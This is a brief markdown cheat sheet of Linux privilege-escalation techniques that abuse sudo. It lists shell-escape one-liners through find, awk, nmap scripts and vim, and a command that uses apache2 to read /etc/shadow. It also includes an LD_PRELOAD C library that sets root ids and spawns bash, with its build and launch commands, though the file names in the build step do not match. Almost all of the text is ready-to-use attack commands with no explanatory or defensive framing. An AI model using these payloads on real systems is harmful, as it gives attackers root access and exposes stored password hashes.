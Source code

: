 # Sudo Shell Escaping
1. sudo find / -name nano -exec /bin/bash \;
2. awk 'BEGIN {system("/bin/bash")}'
3. echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
4. sudo vim -c '!sh'

# Sudo Abusing Intended Functionality
sudo apache2 -f /etc/shadow

## shell.c:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```
